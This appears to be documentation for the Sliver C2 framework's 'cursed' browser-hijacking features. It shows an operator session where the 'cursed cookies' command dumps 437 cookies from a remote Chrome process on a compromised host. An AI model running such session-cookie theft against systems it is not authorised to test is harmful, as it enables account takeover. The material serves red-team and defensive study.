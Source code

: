 ## Cursed Chrome
## Cursed Edge
## Cursed Electron
## Cursed Console
## Cursed Cookies
Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:
```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```

